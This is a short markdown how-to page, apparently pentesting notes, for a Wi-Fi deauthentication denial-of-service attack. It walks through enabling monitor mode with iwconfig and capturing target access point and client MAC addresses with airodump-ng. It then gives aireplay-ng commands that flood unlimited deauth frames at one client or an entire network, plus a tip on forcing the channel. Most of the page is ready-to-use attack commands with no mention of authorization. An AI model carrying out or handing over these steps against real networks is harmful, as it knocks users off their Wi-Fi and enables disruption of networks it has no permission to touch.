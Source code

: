 ```yaml
---
description: >-
  A Wi-Fi deauthentication attack is a type of denial-of-service attack that
  targets communication between a user and a Wi-Fi wireless access point.
---
```


# Deauth

{% hint style="warning" %}
You will need a wifi adapter that allows monitor mode
{% endhint %}

&#x20;_ **Monitor mode** allows a computer with a wireless network interface controller (WNIC) to monitor all traffic received on a wireless channel. Unlike promiscuous mode, which is also used for packet sniffing, monitor mode allows packets to be captured without having to associate with an access point or ad hoc network first. Monitor mode only applies to wireless networks, while promiscuous mode can be used on both wired and wireless networks._

## Monitor mode

{% hint style="warning" %}
run _<mark style="color:blue;">`ifconfig`</mark>_ to check the name of your network adapter, in my case it is wlan0
{% endhint %}

{% code lineNumbers="true" %}
```
# turn down the network adapter
iwconfig wlan0 down

# Changing into monitor mode
iwconfig wlan0 mode monitor

# turn up the network adapter
iwconfig wlan0 up

## run iwconfig to check if monitor mode is successfully enabled 
```
{% endcode %}

## Packet Capture

{% code lineNumbers="true" %}
```
# for all network 
airodump-ng wlan0 

# for a specified network
airodump-ng wlan0 --bssid [MAC]

```
{% endcode %}

{% hint style="info" %}
BSSID - MAC Address of an Access Point

Station - MAC Address of a Client&#x20;
{% endhint %}

## Deauth

{% code lineNumbers="true" %}
```
# on single client
aireplay-ng --deauth 0 -a [bssid] -c [station] wlan0

# on whole network
aireplay-ng --deauth 0 -a [bssid] wlan0
```
{% endcode %}

{% hint style="danger" %}
to change channel forcefully&#x20;

1\) _<mark style="color:blue;">ifconfig</mark> wlan0 down_

_2) <mark style="color:blue;">iwconfig</mark> wlan0 channel 3_

_3) <mark style="color:blue;">ifconfig</mark> wlan0 up_
{% endhint %}

